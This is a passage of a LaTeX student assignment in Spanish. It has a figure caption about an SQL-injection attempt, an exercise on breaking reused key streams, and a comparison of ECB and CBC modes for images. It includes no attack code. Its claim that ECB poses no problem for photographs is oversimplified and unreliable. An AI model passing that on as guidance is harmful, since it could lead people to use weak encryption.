    
\includegraphics[width=0.9\linewidth]{droperror.png}
    \caption{Mensaje de error en la web al intentar inyectar más de una sentencia SQL}
    \label{fig:enter-label}
\end{figure}

\newpage

\section*{Criptografía (modo básico)}

\subsection*{Ejercicio 1}

Supongamos que queremos encriptar textos A y B del mismo largo con una cadena de letras R. Si consideramos las letras y la operación de suma de letras, similarmente al grupo abeliano $(\mathbb{Z}_{26}, +)$ o la cantidad finita adecuada de símbolos, entonces los textos cifrados serán $A' = A + R$ y $B' = B + R$. Lo que podemos hacer ahora es restar estos textos para quitar el cifrado.

$$A' - B' = A + R - B - R = A - B$$

Dejándonos con la resta de dos textos legibles, que consideramos más sencilla de atacar con intuición y fuerza bruta. Siempre que una letra sea descubierta en un mensaje, se sabrá de inmediato la letra en la misma posición pero del otro mensaje. Además como el texto es legible, podemos intentar completarlo al tener suficientes letras.

\subsection*{Ejercicio 6}

La diferencia entre ECB y CBC es la relación que existe entre los bloques cifrados. ECB cifra cada uno independientemente del otro, en cambio en CBC cada bloque alimenta el cifrado del bloque siguiente. 

Para una imagen en mapa de bits hay que tener en cuenta:

\begin{itemize}
    \item Codificar una imagen aún me permitiría leerla como imagen y tratar de detectar patrones en la imagen encriptada.
    \item El tamaño de los píxeles podría o no estar alineado con el tamaño del bloque, y podrían entrar uno o dos píxeles en un bloque.
    \item Dependiendo de la imagen, habrá regiones con exáctamente el mismo color, o será más como un continuo. Cualquier minúscula diferencia hace que píxeles diferentes terminen en colores totalmente diferentes.
\end{itemize}

En el caso que los píxeles estén alineados, y haya regiones del mismo color, podría dilucidarse la silueta de los objetos originales en la imagen encriptada. En estos casos recomendamos evitar ECB, y utilizar CBC. CBC siempre será la alternativa más segura. Si se dan desalineaciones o la imagen es una foto de la realidad, ECB no presentaría problemas, ya que el formato imagen está muy condensado con información, por lo que podríamos considerar cada píxel independiente de los otros, pero esto es solo una aproximación.

Un ejemlo de una imagen que no podría ser encriptada con ECB sería el escaneado de un documento, donde el brillo ha sido saturado para facilitar la lectura. Se pierde la diferencia entre los píxeles y veríamos una silueta del texto original.

\end{document}
